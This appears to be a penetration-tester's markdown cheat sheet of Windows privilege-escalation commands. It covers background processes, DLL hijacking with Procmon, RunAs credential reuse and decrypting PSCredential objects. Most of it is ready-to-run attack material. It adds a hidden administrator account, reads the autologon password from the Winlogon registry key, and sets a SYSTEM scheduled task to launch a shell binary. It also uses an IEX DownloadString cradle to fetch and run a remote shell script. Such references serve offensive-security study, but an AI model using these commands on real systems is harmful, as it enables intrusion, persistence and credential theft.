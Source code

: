 # windows-privilege-escalation

## background shell

```bash
START /B FILE
Start-Process -NoNewWindow -FilePath FILE -ArgumentList "ARGS" [-Credential $creds]
```

## Create User

```bash
# add new user
net user kashz iamR00t123! /add
net localgroup administrators kashz /add
```

## DLL hijacking

**NOTE:** needs RDP-access

```bash
# required library files which could be missing; specified with relative paths; absolute paths which could be writable.
> Run Procmon64.exe; filter to service in question; deselect registry activity and network activity
> net start <service>
# see which DLL files are missing and exploit
```

## RunAs | Creds reuse using PS

```bash
# runAs
> C:\Windows\System32\runas.exe /savecred /user:DOMAIN\USER "COMMAND"
> C:\Windows\System32\runas.exe /env /noprofile /user:USER PASSWORD "COMMAND"

# using PS
PS> (Get-ItemProperty -Path "HKLM:SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name DefaultUserName -ErrorAction SilentlyContinue).DefaultUserName
PS> (Get-ItemProperty -Path "HKLM:SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name DefaultPassword -ErrorAction SilentlyContinue).DefaultPassword

# once we have the autologon pass
# run shell using saved cred
PS> $username = "kashz"
PS> $password = ConvertTo-SecureString 'PASSWORD' -AsPlainText -Force
PS> $creds = New-Object System.Management.Automation.PSCredential($username, $password)

# run shell as scheduled task
PS> Invoke-Command -Computer HOSTNAME -ScriptBlock { schtasks /create /sc onstart /tn kshell /tr "C:\Users\Public\kashz.exe" /ru SYSTEM } -Credential $creds
PS> Invoke-Command -Computer HOSTNAME -ScriptBlock { schtasks /run /tn kshell } -Credential $creds

# run shell
PS> Start-Process "C:\Users\Public\kashz.exe" -Credential $creds
PS> Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('/shell.ps1')" -Credential $creds
```

## Decrypt PSCredential

```bash
# need to be the user who encrypted the data
PS> $UserCred = Import-Clixml -Path <ENCRYPTED-DATA.txt>
| ERROR: Error occurred during a cryptographic operation. => not the right user.
PS>  $UserCred.GetNetworkCredential().password

PS> $user = "USER"
PS> $pass = "ENCRYPTED-DATA" | convertto-securestring
PS> $cred = New-Object System.Management.Automation.PSCredential($user, $pass)
PS> $cred.GetNetworkCredential() | fl
```

## Reference

* [travisgan.com/powershell-password-encryption.html](https://www.travisgan.com/2015/06/powershell-password-encryption.html)
